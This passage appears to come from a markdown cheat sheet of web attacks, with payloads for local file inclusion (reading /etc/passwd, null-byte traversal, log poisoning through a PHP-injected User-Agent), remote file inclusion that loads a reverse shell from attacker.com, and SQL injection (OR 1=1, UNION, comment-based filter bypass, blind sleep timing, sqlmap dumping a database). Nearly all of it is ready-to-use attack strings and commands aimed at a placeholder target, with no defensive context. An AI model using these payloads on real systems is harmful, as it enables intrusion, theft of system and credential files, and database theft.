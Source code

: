 **💥 Exploit**

```bash
curl "http://target/index.php?page=../../../../etc/passwd"
```

**🧠 Advanced Tricks**

* Null byte: `../../../../etc/passwd%00`
*   Log poisoning:

    ```
    /var/log/apache2/access.log
    ```

    Inject PHP code via User-Agent header and include the log file.

***

#### 🔓 3. Remote File Inclusion (RFI)

```
page=http://attacker.com/shell.txt
```

Attacker hosts a reverse shell, included and executed remotely.

***

#### 💀 4. SQL Injection (SQLi)

**🔍 Basic Payloads**

```sql
' OR 1=1--
' UNION SELECT 1,2,3--
```

**🧰 Exploitation Tools**

```bash
sqlmap -u "http://target/login.php?id=1" --dump
```

**🧠 Advanced Tricks**

*   Bypass filters with comments:

    ```sql
    admin'/**/OR/**/1=1--
    ```
*   Blind SQLi:

    ```sql
    1' AND sleep(5)--+
    ```

**🧩 Manual Blind Testing**

```bash
time curl "http://target/item?id=1' AND sleep(5)--"
```
